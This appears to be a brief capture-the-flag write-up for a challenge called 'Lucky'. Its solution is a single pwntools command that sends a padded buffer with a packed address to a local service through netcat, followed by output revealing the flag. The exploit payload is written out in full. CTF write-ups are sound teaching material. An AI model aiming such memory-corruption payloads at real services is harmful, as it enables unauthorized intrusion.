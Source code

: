 # Lucky
## Description
Feeling lucky? I have just the challenge for you :D

## Solution
```text
❯ python -c "from pwn import *;import sys; sys.stdout.buffer.write(b'A' * 12 + p32(0x563412))" | nc 127.0.0.1 7001
Enter your name: 
Welcome, AAAAAAAAAAAA4V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag: gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```
